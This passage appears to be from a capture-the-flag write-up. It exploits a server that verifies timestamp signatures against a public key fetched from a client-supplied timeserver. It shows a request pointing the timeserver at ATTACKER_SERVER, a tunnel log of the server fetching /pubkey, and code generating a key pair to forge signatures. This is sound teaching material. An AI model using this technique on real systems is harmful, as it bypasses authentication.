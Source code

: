 {% endcode %}

If we change the timestamp, we get a `401: Unauthorized` error because the signature does not match.

{% code overflow="wrap" %}

```python
pubkey = get_pubkey_of_timeserver(timeserver)
h = SHA256.new(timestamp)
verifier = DSS.new(pubkey, 'fips-186-3')
verifier.verify(h, signature)
```

{% endcode %}

So, let's try to provide our own timeserver and see if we get a hit.

{% code overflow="wrap" %}

```json
{
    "timestamp": "1719135562",
    "signature": "c8a319c7e3b02ce295171f870682d22902c21dcc875f6da860f73e3abfa9cacf27b6d1cebcc18ad92cd00cdad97ecb90caddcd3530d0c06daa9a93c66290c022",
    "timeserver": "ATTACKER_SERVER"
}
```

{% endcode %}

We do!

{% code overflow="wrap" %}

```bash
+-------------------------+----------------------------------+
| Public tunnel URL       |     https://ATTACKER_SERVER      |
+-------------------------+----------------------------------+
| Local inspect dashboard |     http://localhost:46607       |
+-------------------------+----------------------------------+
| Forwarding traffic to   |     http://localhost:80          |
+-------------------------+----------------------------------+
404		GET	/pubkey
```

{% endcode %}

So, if we create our own key pair, we can sign custom forged timestamps with our own private key and then trick the server into verifying the signature against our public key!

Let's generate the keys first - remember that the filename needs to be `pubkey`.

{% code overflow="wrap" %}

```python
from Crypto.PublicKey import ECC

key = ECC.generate(curve='P-256')

with open('pubkey', 'wb') as f:
    f.write(key.public_key().export_key(format='PEM'))

with open('privkey', 'wb') as f:
    f.write(key.export_key(format='PEM'))
```
